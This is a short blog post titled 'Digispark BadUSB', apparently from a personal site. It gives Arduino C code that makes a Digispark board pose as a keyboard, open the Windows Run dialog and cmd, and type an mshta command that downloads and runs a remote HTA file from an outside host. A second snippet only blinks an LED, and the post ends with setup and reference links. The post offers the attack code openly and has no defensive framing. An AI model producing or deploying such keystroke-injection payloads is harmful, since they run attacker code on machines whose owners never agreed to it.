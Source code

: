 ```yaml
---
author: XhstormR
categories:
- BadUSB
date: 2019-11-16T16:15:32+08:00
title: Digispark BadUSB
---
```


<!--more-->

Updated on 2019-11-16

>

## Code
```c
#include "DigiKeyboard.h"

#define KEY_CAPSLOCK 57

void setup() {
    DigiKeyboard.delay(1000);
    DigiKeyboard.sendKeyStroke(0);
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
    DigiKeyboard.delay(500);
    DigiKeyboard.println("cmd");
    DigiKeyboard.delay(500);
    DigiKeyboard.println("mshta http://1.1.1.1/main.hta & exit");
}

void loop() {
}
```

```c
void setup() {
    pinMode(1, OUTPUT);
}

void loop() {
    digitalWrite(1, HIGH);
    delay(1000);
    digitalWrite(1, LOW);
    delay(1000);
}
```

## Install
* https://github.com/arduino/Arduino
* https://github.com/digistump/arduino-boards-index
* https://github.com/digistump/DigistumpArduino/releases/latest

## Reference
* https://github.com/toxydose/Duckyspark
* [Digispark Example](https://github.com/digistump/DigistumpArduino/tree/master/digistump-avr/libraries/Digispark_Examples)
* [DigiMouse.h](https://github.com/digistump/DigistumpArduino/blob/master/digistump-avr/libraries/DigisparkMouse/DigiMouse.h)
* [DigiKeyboard.h](https://github.com/digistump/DigistumpArduino/blob/master/digistump-avr/libraries/DigisparkKeyboard/DigiKeyboard.h)
* [HID Usage Tables](https://source.android.google.cn/devices/input/keyboard-devices#hid-keyboard-and-keypad-page-0x07)
